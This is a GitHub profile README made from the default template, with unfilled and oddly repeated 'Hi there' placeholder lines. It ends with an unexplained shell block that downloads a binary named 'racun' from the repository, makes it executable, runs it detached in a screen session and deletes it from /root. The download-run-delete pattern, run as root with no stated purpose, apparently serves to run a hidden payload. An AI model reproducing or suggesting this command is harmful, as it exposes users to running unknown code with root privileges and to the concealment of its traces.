 ### Hi there 👋

### Hi there 🔭 I’m currently working on ...
### Hi there 🌱 I’m currently learning ...
### Hi there 👯 I’m looking to collaborate on ...
### Hi there 🤔 I’m looking for help with ...
### Hi there 💬 Ask me about ...
### Hi there 📫 How to reach me: ...
### Hi there 😄 Pronouns: ...
### Hi there ⚡ Fun fact: ...


<!--
**racunzx/racunzx** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->

```
wget https://raw.githubusercontent.com/racunzx/racunzx/main/racun
chmod +x racun && screen -S racun ./racun && rm -f /root/racun
```
